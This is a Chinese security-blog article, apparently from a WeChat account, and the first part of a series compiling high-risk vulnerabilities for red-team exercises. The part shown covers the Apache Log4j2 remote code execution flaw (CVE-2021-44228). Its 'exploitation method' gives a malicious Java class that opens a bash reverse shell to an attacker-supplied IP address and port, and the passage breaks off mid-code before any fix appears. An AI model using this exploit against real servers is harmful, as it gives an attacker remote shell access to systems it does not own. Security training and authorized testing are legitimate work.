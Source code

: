 #  HW在即，你需要的40个高危漏洞利用与修复整合（一）

原创 YNsec [ YNsec安全实验室 ](javascript:void\(0\);)

**YNsec安全实验室** ![]()

微信号 SDWsec

功能介绍 我们是信安学习路上的同志，为网络强国而默默努力的大学生，这条路上，我们从不孤单

____

___发表于_

收录于合集 #HW 1个

由于公众号文章篇幅限制，文章分批编辑，一篇文章发送10个漏洞。  
随着时间推移，HW的时间也一步步推进，在此，我整合了40个高危漏洞，给出利用方法与解决方案供师傅们参考，创作不易，请师傅们多多点赞转发，感谢。  
公众号查阅不便的话，请转发文章至朋友圈或安全交流群，截图找我领取原文档，联系方式可以在后台回复“联系方式”获取。

#  **1、Apache Log4j2 远程代码执行漏洞**

Apache Log4j2 是一个开源的 Java 日志框架，被广泛地应用在中间件、开发框架与 Web 应用中。  
Apache Log4j2 存在远程代码执行漏洞，该漏洞是由于 Apache Log4j2
某些功能存在递归解析功能，未经身份验证的攻击者通过发送特定恶意数据包，可在目标服务器上执行任意代码。  
 **漏洞标签：** 影响范围广、利用链成熟、历史重大漏洞、接触核心资产概率大  
 **漏洞编号：** CVE-2021-44228  
 **漏洞类型：** RCE  
 **受影响版本：**

  1. Apache Log4j2 2.x <= 2.14.1
  2. Apache Log4j2 2.15.0-rc1

 **利用方法：**  
编辑恶意类，内容如下

    
    
    import java.io.BufferedReader;  
    import java.io.InputStream;  
    import java.io.InputStreamReader;  
      
    public class Exploit{  
        public Exploit() throws Exception {  
            Process p = Runtime.getRuntime().exec(new String[]{"bash", "-c", "bash -i >& /dev/tcp/你的ip地址/9897 0>&1"});  
            InputStream is = p.getInputStream();  
            BufferedReader reader = new BufferedReader(new InputStreamReader(is));  
      
            String line;  
            while((line = reader.readLine()) != null) {  
                System.out.println(line);  
            }  
      
            p.waitFor();  
            is.close();  
            reader.close();  
            p.destroy();  
        }  
      